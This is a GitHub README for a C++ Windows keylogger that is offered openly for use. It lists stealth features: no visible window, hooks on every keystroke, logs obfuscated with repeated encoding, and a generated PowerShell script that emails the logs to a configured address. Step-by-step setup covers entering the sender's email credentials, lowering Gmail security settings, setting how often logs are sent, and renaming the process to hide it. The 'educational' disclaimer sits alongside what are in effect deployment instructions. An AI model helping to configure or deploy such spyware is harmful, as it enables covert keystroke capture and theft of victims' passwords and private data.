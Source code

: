 # Cpp-Keylogger (Completed)
Advanced keylogger made in C++ that works on Window 7, 8, 8.1, And 10 - **Use at your own discretion** <br/><br/>
This is a keylogger I learned from Udemy for educational purposes. Please do not use this code for illegal or immoral purposes and keep it open source! The project also includes a decryption program will accepts an encrypted log file and translates it to a human readable language. <br/>
If you would like to take the course yourself, check it out [here](https://www.udemy.com/how-to-create-an-advanced-keylogger-from-scratch-for-windows).

## Features
  * Lots of comments in each of the source files for the user
  * Low-resource usage/non-intensive process and generates no windows when ran
  * Asynchronous execution of processes
  * Capture all keystrokes using system hooks
  * Automatically log the time and date when a log file is produced
  * Uses Base64 encryption with slight modifications and encodes the log multiple times
  * Generates and invokes a powershell script that can attach the encrypted log and email it
  * Lots of customization options in the source code for user to modify:
    * Name of the process
    * Email to send from and send to
    * Time between each log file generation
    * Format which the keys are recorded
    * Keys to exclude from recording
    
## Important Information
  * Log files by default are stored in C:\Users\($User)\AppData\Roaming\Microsoft\CLR
  * AppLog files are produced in the location when the keylogger is ran for debugging purposes
  * Problems may occur if the Keylogger in ran multiple times when one is still running
  * Default name to look for in the task manager to end the keylogger process is Keylogger.exe

### Prerequisites

What things you need to install the software and how to install them

```
* Visual Studio preferably or any IDE of your choice
* C++11 standards must be enabled and if using GCC compilter, -mwindows flag needs to be checked

```

### Installing

A step by step series of examples that tell you have to get a development environment running

Download the repository using either bash or the browser

```
git clone https://github.com/htmercury/Cpp-Keylogger
```

Open the solution file in Visual Studio using the sln file

```
located at ../Cpp-Keylogger/Keylogger.sln
```

For other IDEs, make a project that includes all source and header files

```
located at ../Cpp-Keylogger/Keylogger
```

## Setting it up
Listed below are various options the user can interact with the source code for their specific usage.

## Email
Required if user wants the log to be sent to an email.

Open SendMail.h
```
located at ../Cpp-Keylogger/Keylogger/SendMail.h
```
Edit line 16 for where the log should be sent from (default: gmail only, look at Other Emails section for changing that)
```
line 16: #define X_EM_TO "our.destination@email.address" // change the string to source email
```
Edit line 17 for where the log should be sent to (can be same as above or any other email is fine)
```
line 17: #define X_EM_FROM "Address of sender" // change the string to destination email
```
Edit line 18 for powershell to login to source email (required for email to be sent)
```
line 18: X_EM_PASS "password" // change the string to password of source email
```
## Configuring the Source Email
For gmail, allow less secure apps access your source email so the program can construct and send the email.
The steps needed to do this is documented [here](https://support.google.com/accounts/answer/6010255?hl=en) on Google Support. <br/>
Refer to Other Emails section if the source email is not gmail.

**SKIP OTHER EMAILS SECTION IF SOURCE EMAIL IS GMAIL**

## Other Emails
OPTIONAL: If you want to use another email other than gmail as the source email, then follow these steps.

Open SendMail.h
```
located at ../Cpp-Keylogger/Keylogger/SendMail.h
```
Edit line 39 with your email port number which can be searched up
```
line 39: "           $Client = New-Object Net.Mail.SmtpClient($Srv, 587) #587 port for smtp.gmail.com SSL\r\n "
```

## Customization
OPTIONAL changes the user can make to the source code to fit their needs.

## Name
The name of the process can simply be changed by renaming the .exe file of the built solution

Build the solution
```
Build -> Build Solution
The .exe file should be located by default in ../Cpp-Keylogger/Debug/Keylogger.exe
```
Rename the built Keylogger.exe file

## Time
Here, the user can set the interval at which each log file is created and sent

Open KeybHook.h
```
located at ../Cpp-Keylogger/Keylogger/KeybHook.h
```
Edit line 36 with the desired time (default is 30 seconds)
```
line 36: Timer MailTimer(TimerSendMail, 500 * 60, Timer::Infinite); // change the second argument to desired time (milliseconds)
```
## Format
Here, the user can set how the log file formats the read keys

Open Helper.h
```
located at ../Cpp-Keylogger/Keylogger/Helper.h
```
Edit lines 77 - 83 to change how single keys are formated
```
line 77: void WriteAppLog(const std::string &s) // function responsible for format of each key in log (default: [a][b][c])
```

## Key Exceptions
Here, the user can exclude keys they don't want to be logged

Open KeybHook.h
```
located at ../Cpp-Keylogger/Keylogger/KeybHook.h
```
Take a look at lines 40 - 72
```
line 40: LRESULT OurKeyBoardProc(int nCode, WPARAM wparam, LPARAM lparam) // function responsible for reading and handling certain key presses
```
Add in necessary if statements and desired format when a certain key is pressed (ex: by default pressing enter inserts "\n" to the log)

### Configuring Other Emails
Look up permissions respectively for your source email that allow less secure apps to access that source email.

## License
This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details

## Disclaimer
Any usage of this keylogger on a computer that is not owned by you or do not have permissions, **YOU ARE RESPONSIBLE FOR THE OUTCOME**. Not me.
